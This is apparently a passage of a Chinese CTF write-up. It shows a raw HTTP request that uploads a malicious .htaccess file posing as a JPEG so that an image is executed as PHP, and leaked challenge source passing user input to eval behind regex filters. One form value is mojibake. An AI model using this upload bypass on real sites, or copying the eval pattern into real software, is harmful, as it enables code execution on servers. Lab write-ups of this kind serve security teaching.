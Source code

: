 ```http
POST / HTTP/1.1
Host: 7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Length: 430
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzMAUFel4paiiSDAr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://7911356d-7ed4-4340-a593-87f6de5b393e.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; PHPSESSID=adef9ced961114c0cb0d697c6bd8e03e
Connection: close

------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="uploaded"; filename=".htaccess"
Content-Type: image/jpeg

<FilesMatch "bme.jpg">
SetHandler application/x-httpd-php #匹配到的文件按照php解析
AddHandler php5-script .jpg #其他按照jpg解析
</FilesMatch>
------WebKitFormBoundaryzMAUFel4paiiSDAr
Content-Disposition: form-data; name="submit"

涓婁紶
------WebKitFormBoundaryzMAUFel4paiiSDAr--
```

## 禁止套娃

> *2021/07/21*

### 题目

页面上啥也没有

![gxyctf20191](img/gxyctf2019/gxyctf20191.png)

先用`ctf-wscan`扫下文件，发现存在`/.git/`目录，说明是**Git泄露**，`GitHack`跑一下，发现`index.php`

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
```